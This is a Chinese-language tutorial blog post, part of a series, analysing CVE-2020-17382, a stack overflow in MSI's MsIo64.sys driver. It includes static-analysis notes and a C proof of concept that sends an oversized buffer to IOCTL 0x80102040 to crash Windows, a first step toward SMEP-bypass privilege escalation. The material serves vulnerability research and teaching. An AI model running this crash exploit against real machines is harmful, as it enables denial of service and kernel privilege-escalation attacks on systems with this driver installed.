




# 【第 12 話】CVE-2020-17382 研究－Buffer Overflow（上）

## 文章大綱
我們在[【第 11 話】Capcom.sys 研究－Arbitrary Shellcode Execution](/asset/第%2011%20話) 分析了 Capcom.sys 的漏洞，並且在最後介紹了 SMEP 的保護機制。

接下來將利用 CVE-2020-17382 的 Stack Overflow 漏洞搭配 ROP 繞過 SMEP 保護，然後執行 Shellcode 達成提權。這篇只介紹 CVE-2020-17382 的漏洞成因與 Stack Overflow 的 PoC，下一篇再說明整個攻擊流程。

## 介紹 CVE-2020-17382
首先來看看 [CVE-2020-17382](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17382) 在 MITRE 的描述。

The MSI AmbientLink MsIo64 driver 1.0.0.8 has a Buffer Overflow (0x80102040, 0x80102044, 0x80102050, and 0x80102054).

直接用列點的方式抓重點。
- 軟體：[MSI AmbientLink](https://www.msi.com/Landing/ambient-link/)
- 元件：MsIo64.sys 1.0.0.8
- 漏洞位置：0x80102040、0x80102044、0x80102050、0x80102054
- 漏洞成因：Buffer Overflow

從我的 GitHub 下載目標驅動程式檔案 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 MsIo64.sys 的數位簽章資訊，是 2018 年 2 月 12 日的簽章。




## 靜態分析
IDA 開啟 MsIo64.sys 後看 `DriverEntry` 可以快速找到 Dispatcher 的函數位址與 Symbolic Link Name `MsIo`。



跟進 Dispatcher 後找 CVE 中提到的 IoControlCode 0x80102040，其中 `Src` 這個變數存在 Stack 上，SystemBuffer 跟 InputBufferLength 分別是我們的輸入與輸入長度。在下圖紅框中的 `memmove(Src, SystemBuffer, InputBufferLength);` 之前並沒有限制輸入長度，因此很明顯 Stack Overflow 漏洞就發生在這。




## 攻擊腳本－Crash
現在已知有個 Stack Overflow 的漏洞，理論上我們給一長串 `aaaaaaaa...` 給驅動程式，這個輸入就會塞滿 Stack 並覆蓋 Return Address 而導致系統崩潰。

完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2020-17382/Crash)。

```c
#include <Windows.h>
#include <iostream>

#define SymLinkName L"\\\\.\\MsIo"

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 1;
    }

    DWORD dwWrite;

    // 輸入 0x100 個 'a' 讓 MsIo64.sys 因為 Stack Overflow 而崩潰
    char data[0x100];
    memset(data, 'a', 0x100);
    DeviceIoControl(hDevice, 0x80102040, data, sizeof(data), NULL, 0, &dwWrite, NULL);

    CloseHandle(hDevice);
    return 0;
}
```


## 測試
在 VM 中載入 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys) 後執行 [Crash.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/Crash.exe)，會看到 BSOD 如下圖。




## 參考資料
- [CVE-2020-17382](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17382)
- [Windows 10 x64上令牌窃取有效载荷问题，并绕过SMEP（下）](https://www.4hou.com/shop/posts/4YAV)
- [SMEP: What is it, and how to beat it on Windows](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/)
- [HEVD Window Kernel Exploit 01 - StackOverflow](https://www.anquanke.com/post/id/218682)
- [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)